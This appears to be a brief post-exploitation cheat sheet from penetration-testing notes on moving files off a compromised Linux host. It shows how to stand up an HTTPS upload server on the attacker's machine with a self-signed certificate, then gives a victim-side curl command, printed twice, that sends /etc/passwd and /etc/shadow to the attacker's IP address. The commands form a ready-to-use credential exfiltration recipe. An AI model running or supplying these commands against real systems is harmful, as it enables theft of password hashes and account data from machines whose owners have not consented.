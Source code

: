 #### Attacker - Start Web Server
```bash
sudo python3 -m pip install --user uploadserver
```
#### Attacker - Create a Self-Signed Certificate
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```
###### Store this certificate in another directory
#### Attacker - Start Web Server
```bash
mkdir https && cd https
```

```bash
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```
#### Victim Linux - Upload Multiple Files
```bash
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

```bash
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
# Tags
> #Post-Exploitation #Linux-Post-Exploitation #File-Transfers #Upload-Server